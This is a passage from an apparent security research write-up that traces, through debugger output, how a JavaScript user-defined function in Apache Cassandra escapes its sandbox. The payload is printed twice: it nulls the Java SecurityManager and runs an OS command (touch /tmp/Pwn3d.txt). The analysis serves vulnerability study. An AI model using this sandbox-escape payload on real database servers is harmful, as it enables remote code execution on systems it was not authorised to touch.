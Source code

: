 &nbsp;

When we go to our debugger here clearly we have the members of `ScriptBasedUDFunction` which are:

```
protectionDomain = null
accessControlContext = null
allowedPackagesArray = {String[34]@7856} ["", "com", "edu", "java", "javax", +29 more]
executor = null
classFilter = null
scriptEngine = null
logger = {Logger@7857} "Logger[org.apache.cassandra.cql3.functions.UDFunction]"
threadMXBean = {ThreadImpl@7858} 
allowedPatterns = {String[21]@7859} ["com/google/comm...", "java/io/IOExcep...", "java/io/Seriali...", "java/lang/", "java/math/", +16 more]
disallowedPatterns = {String[34]@7860} ["com/datastax/dr...", "com/datastax/dr...", "com/datastax/dr...", "com/datastax/dr...", "com/datastax/dr...", +29 more]
udfClassLoader = {UDFunction$UDFClassLoader@7861} 
$assertionsDisabled = false
NAME_COMPARATOR = {SchemaElement$lambda@7862} 
```

&nbsp;

![](/assets/images/1b14278dcc59dd26c1accba732562d10)

&nbsp;

Here we can see it executed the `ScriptBasedUDFunction()` function under `UDFunction` class implementation as the language is `JavaScript` & We can see that the body is carrying our function:

```
body= var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch /tmp/Pwn3d.txt")');name 
```

&nbsp;

![](/assets/images/83970774c1ba34bce93c34f9fdb1c8e7)

&nbsp;

After that it starts to create our `UDF` using `create` method. And it's passing the needed parameters as the following:

```
this = {CreateFunctionStatement@7887} "CreateFunctionStatement (test, exec)"
 functionName = "exec"
 argumentNames = {ArrayList@7880}  size = 1
 rawArgumentTypes = {ArrayList@7937}  size = 1
 rawReturnType = {CQL3Type$Raw$RawType@7938} "text"
 calledOnNullInput = false
 language = "javascript"
 body = "\nvar System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch /tmp/Pwn3d.txt")');name "
 orReplace = true
 ifNotExists = false
 keyspaceName = "test"
schema = {Keyspaces@7888} "[KeyspaceMetadata{name=system_schema, kind=REGULAR, params=KeyspaceParams{durable_writes=true, replication=ReplicationParams{class=org.apache.cassandra.locator.LocalStrategy}}, tables=[system_schema.keyspaces, system_schema.tables, system_schema.columns, system_schema.triggers, system_schema.dropped_columns, system_schema.views, system_schema.types, system_schema.functions, system_schema.aggregates, system_schema.indexes], views=[], functions=[], types=[]}, KeyspaceMetadata{name=system, kind=REGULAR, params=KeyspaceParams{durable_writes=true, replication=ReplicationParams{class=org.apache.cassandra.locator.LocalStrategy}}, tables=[system."IndexInfo", system.batches, system.paxos, system.local, system.peers_v2, system.peers, system.peer_events_v2, system.peer_events, system.compaction_history, system.sstable_activity, system.size_estimates, system.table_estimates, system.available_ranges_v2, system.available_ranges, system.transferred_ranges_v2, system.transferred_ranges, system.view_bu"
```